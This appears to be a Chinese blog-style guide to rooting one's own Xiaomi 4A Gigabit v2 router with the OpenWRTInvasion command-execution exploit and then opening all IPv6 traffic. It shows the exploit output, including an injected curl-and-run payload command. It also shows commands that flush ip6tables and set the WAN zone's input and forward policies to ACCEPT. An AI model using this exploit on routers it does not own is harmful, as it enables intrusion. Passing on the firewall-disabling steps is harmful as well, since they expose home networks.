


# 小米路由器 4A 千兆版v2 (r4ag v2) 放通所有 IPv6 流量


**适用于**

型号：小米路由器 4A 千兆版v2 (r4ag v2)

系统版本: 2.30.500 


### 下载漏洞脚本

注意必须要用这个，其他同名项目也不行

> 没空看源代码，也懒得看区别在在哪里了。


GitHub： [LordPinhead/OpenWRTInvasion](https://github.com/LordPinhead/OpenWRTInvasion) 

备用下载：https://wwjt.lanzouu.com/ixMDO2yd61re


### 解锁 Telnet

解压并打开项目

打开 `remote_command_execution_vulnerability.py`，把 Windows 检测的两行代码直接注释掉




找到变量 `router_password` 改成目前路由器的管理密码




安装依赖并运行脚本

```python
pip3 install -r requirements.txt # Install requirements
python3 remote_command_execution_vulnerability.py # Run the script
```


运行后一直回车即可

> 如果运行的时候卡在 `stopping local file server`，就是失败了，关掉重新运行。

```shell
Router IP address [press enter for using the default '192.168.31.1']: 
Local Host IP address [press enter for using the default '192.168.31.2']: 
Enter router admin password: '12345678']: 
****************
router_ip_address: 192.168.31.1       
stok: xxxxxxxxxxxxxxxxxxxxxxxxx
****************
local file server is runing on 0.0.0.0:50285. root='build'
start uploading payload file...
exploit url: cd /tmp && curl -s http://192.168.31.2:50285/build/payload.tar.gz > payload.tar.gz && curl -s http://192.168.31.2:50285/bootstrapper_v2.sh > bootstrapper.sh && /bin/ash /tmp/bootstrapper.sh
exploit_code: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
exploit_url: xxxxxxxxxxxxxxxxxxxxxxxxxxx
{"code":0}
stopping local file server
done! Now you can connect to the router using several options: (user: root, password: root)
* telnet 192.168.31.1
* ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc -o UserKnownHostsFile=/dev/null root@192.168.31.1
* ftp: using a program like cyberduck
```


运行完成后，就可以 Telnet 上路由器了

```
XiaoQiang login: root
Password: root


BusyBox v1.25.1 (2023-02-07 05:46:32 UTC) built-in shell (ash)

 -----------------------------------------------------
       Welcome to XiaoQiang!
 -----------------------------------------------------
  $$$$$$\  $$$$$$$\  $$$$$$$$\      $$\      $$\        $$$$$$\  $$\   $$\
 $$  __$$\ $$  __$$\ $$  _____|     $$ |     $$ |      $$  __$$\ $$ | $$  |
 $$ /  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ /  $$ |$$ |$$  /
 $$$$$$$$ |$$$$$$$  |$$$$$\         $$ |     $$ |      $$ |  $$ |$$$$$  /
 $$  __$$ |$$  __$$< $$  __|        $$ |     $$ |      $$ |  $$ |$$  $$<
 $$ |  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ |  $$ |$$ |\$$\
 $$ |  $$ |$$ |  $$ |$$$$$$$$\       $$$$$$$$$  |       $$$$$$  |$$ | \$$\
 \__|  \__|\__|  \__|\________|      \_________/        \______/ \__|  \__|


root@XiaoQiang:~# 
```


### ip6table 放行 IPv6 流量

临时放行（用于测试是否为路由器防火墙引起的问题）

```shell
ip6tables -F
ip6tables -X
ip6tables -P INPUT ACCEPT
ip6tables -P OUTPUT ACCEPT
ip6tables -P FORWARD ACCEPT
```

永久放行：

```shell
# 设置 INPUT 策略为 ACCEPT
uci set firewall.@zone[1].input='ACCEPT'

# 设置 FORWARD 策略为 ACCEPT
uci set firewall.@zone[1].forward='ACCEPT'

# 保存到配置文件
uci commit firewall    

# 重启防火墙
/etc/init.d/firewall restart  

```


查看 ip6tables

```shell
ip6tables -L -n
```


重启系统验证

```shell
reboot
```


重启后从公网再访问一下，确认没问题，就是 OK 了。